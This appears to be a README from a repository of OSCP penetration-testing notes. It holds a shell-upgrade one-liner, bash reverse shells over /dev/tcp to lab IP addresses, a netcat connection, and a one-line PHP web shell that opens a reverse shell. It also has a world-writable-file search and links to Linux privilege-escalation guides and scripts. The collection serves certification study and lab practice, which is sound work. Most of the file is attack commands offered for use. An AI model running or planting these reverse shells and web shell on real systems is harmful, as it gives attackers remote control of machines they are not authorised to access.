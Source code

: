 # oscp-tools


# Upgrade Your Shellz

python -c 'import pty; pty.spawn("/bin/bash");'

# Alternative Shell

bash -i >& /dev/tcp/172.16.1.3/8080 0>&1

nc 172.16.1.2 443

# Tiny PHP Shell

<?php exec("/bin/bash -c 'bash -i > &/dev/tcp/172.16.1.2/8888 0>&1'"); ?>



# Priv Esc

Find SUID Files in /etc

find /etc -perm -2 -type f 2>/dev/null




List of tools and commands used for OSCP

Basic Priv Esc - Commands used in Unix Priv Esc

http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Linux Priv Enum Script

http://www.rebootuser.com/?p=1758

Linux Priv Checker Python Script

http://www.securitysift.com/download/linuxprivchecker.py

Linux Cheet Sheet for Commands

https://www.isical.ac.in/~pdslab/2016/lectures/bash_cheat_sheet.pdf
